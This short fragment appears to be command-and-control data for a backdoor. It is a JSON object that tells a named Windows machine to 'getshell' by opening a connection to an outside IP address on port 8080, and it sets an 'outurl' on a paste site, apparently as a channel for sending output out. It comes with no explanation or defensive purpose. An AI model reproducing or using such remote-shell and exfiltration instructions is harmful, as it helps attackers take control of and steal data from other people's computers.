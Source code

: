 
{"WIN-91A9V5I09O5":{"getshell":"?rawdoor r t 23.239.208.23 8080~open"},"all":{"outurl":"http://kl1p.com/nxZg?save=true&id=160399&type=code&name=nxZg&nid=&param=text%2Fplain&client=web&text="}}
